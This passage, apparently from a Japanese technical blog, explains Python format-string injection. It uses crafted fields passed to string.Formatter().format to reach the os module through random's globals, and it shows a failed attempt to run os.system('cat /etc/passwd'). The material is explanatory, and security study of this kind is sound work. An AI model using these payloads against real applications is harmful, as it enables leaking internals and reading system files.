 <img src="/img/2024/12-17/random-import-os.png" alt="randomモジュールで import os している箇所" width="800px" height="auto">

従って、 `random` モジュール内から `_os` オブジェクトをたどることができる。具体的には:

```python
>>> string.Formatter().format("{0.Random.__init__.__globals__[_os]}", random)
"<module 'os' from '/Users/sho.nakatani/.pyenv/versions/3.10.12/lib/python3.10/os.py'>"
```

ここまでで `os` モジュールまで手に入れたので、あとは `os.system('cat /etc/passwd')` でも試したくなる。しかしここまでの方法では、 `system` 関数にアクセスはできても関数呼び出しができない。

```python
>>> string.Formatter().format("{0.Random.__init__.__globals__[_os].system}", random)
'<built-in function system>'

>>> string.Formatter().format("{0.Random.__init__.__globals__[_os].system('cat /etc/passwd')}", random)
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/Users/sho.nakatani/.pyenv/versions/3.10.12/lib/python3.10/string.py", line 161, in format
    return self.vformat(format_string, args, kwargs)
  File "/Users/sho.nakatani/.pyenv/versions/3.10.12/lib/python3.10/string.py", line 165, in vformat
    result, _ = self._vformat(format_string, args, kwargs, used_args, 2)
  File "/Users/sho.nakatani/.pyenv/versions/3.10.12/lib/python3.10/string.py", line 205, in _vformat
    obj, arg_used = self.get_field(field_name, args, kwargs)
  File "/Users/sho.nakatani/.pyenv/versions/3.10.12/lib/python3.10/string.py", line 276, in get_field
    obj = getattr(obj, i)
AttributeError: module 'os' has no attribute 'system('cat /etc/passwd')'
```
